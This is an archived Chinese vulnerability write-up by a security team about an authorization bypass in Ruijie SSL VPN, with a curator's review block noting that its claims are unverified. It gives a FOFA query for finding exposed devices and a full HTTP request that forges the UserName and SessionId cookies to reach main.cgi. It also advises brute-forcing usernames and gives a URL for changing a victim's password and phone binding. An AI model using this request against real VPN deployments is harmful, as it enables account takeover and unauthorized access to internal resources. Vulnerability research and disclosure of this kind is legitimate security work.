





# 锐捷 SSL VPN 越权访问漏洞复现

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Ruijie SSL VPN
- 本文讨论：main.cgi伪造UserName/SessionId访问资源与改资料
- 版本、权限与配置前提：需已存在用户名；无密码，固件未列
- 资料类型：已知用户名授权绕过研究转载；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 改密/绑定手机仅界面截图无提交请求或实际生效证明
- showsvr URL含两个oper值，解析优先级未说明；跨用户名xm/liuw需一致
- 无固定版本/官方公告
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 伪造session有效条件、受限API和修复范围待确认
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-ZfUzM9WYo4P1d3Zq1UQjQ)

**很强点击蓝字**


**关注我们**

  

**_声明  
_**

本文作者：PeiQi  
本文字数：681

阅读时长：5min

附件 / 链接：点击查看原文下载

声明：请勿用作违法用途，否则后果自负

本文属于【狼组安全社区】原创奖励计划，未经许可禁止转载

  

  

**_前言_**

  

一、

**_漏洞描述_**

Ruijie SSL VPN 存在越权访问漏洞，攻击者在已知用户名的情况下，可以对账号进行修改密码和绑定手机的操作。并在未授权的情况下查看服务器资源  

二、

**_漏洞影响  
_**

Ruijie SSL VPN  

**三、**

**_漏洞复现_**

FOFA 语法

```
icon_hash="884334722" || title="Ruijie SSL VPN"
```

  
访问目标 http://xxx.xxx.xxx.xxx/cgi-bin/installjava.cgi



POC 请求包如下  

```http
GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

其中注意的参数为

```
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

UserName 参数为已知用户名

> 在未知登录用户名的情况下 漏洞无法利用 (根据请求包使用 Burp 进行用户名爆破)



用户名正确时会返回敏感信息  



通过此方法知道用户名后可以通过漏洞修改账号参数

访问 http://xxx.xxx.xxx.xxx/cgi-bin/main.cgi?oper=showsvr&encode=GBK&username=liuw&sid=1&oper=showres



点击个人设置跳转页面即可修改账号信息



参考文章  

https://mp.weixin.qq.com/s/iRmDQJH23FJ6mL_GzXeL6g

**团队【PeiQi】师傅的微信二维码放在这了**


  

**_扫描关注公众号回复加群_**

**_和师傅们一起讨论研究~_**

  

**长**

**按**

**关**

**注**

**WgpSec 狼组安全团队**

微信号：wgpsec

Twitter：@wgpsec


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
